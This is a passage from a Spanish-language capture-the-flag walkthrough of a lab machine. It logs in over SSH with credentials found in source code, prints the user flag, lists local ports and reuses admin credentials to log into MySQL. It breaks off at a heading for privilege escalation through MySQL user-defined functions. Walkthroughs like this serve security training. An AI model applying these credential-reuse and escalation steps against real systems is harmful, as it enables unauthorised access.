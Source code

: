 Vemos que sacamos las credenciales del usuario `designer`, por lo que nos conectaremos mediante `SSH`.

### SSH

```shell
ssh designer@<IP>
```

Metemos como contraseña `SuperSecurePassword123` y veremos que estamos dentro, por lo que leeremos la flag de usuario.

> user.txt

```
4683f3b0c2f083bb9588370c0f8ab284
```

## Escalate Privileges

Si vemos los puertos que estan abiertos en la maquina, veremos lo siguiente:

```shell
ss -tuln
```

Info:

```
Netid          State           Recv-Q          Send-Q                     Local Address:Port                     Peer Address:Port          Process          
tcp            LISTEN          0               511                              0.0.0.0:80                            0.0.0.0:*                              
tcp            LISTEN          0               128                              0.0.0.0:22                            0.0.0.0:*                              
tcp            LISTEN          0               80                             127.0.0.1:3306                          0.0.0.0:*                              
tcp            LISTEN          0               128                                 [::]:22                               [::]:*                              
tcp            LISTEN          0               4096                                   *:3000
```

Vemos que esta el puerto `3306` abierto de forma local que se corresponde con el de `MySQL`, si recordamos encontramos unas credenciales en el dominio `gitea.dl` que eran lo siguiente:

```
User: admin
Pass: PassAdmin123-
```

Vamos a probar si podemos entrar con dichas credenciales:

```shell
mysql -u admin -pPassAdmin123-
```

### Escalada con UDF (User-Defined Functions)
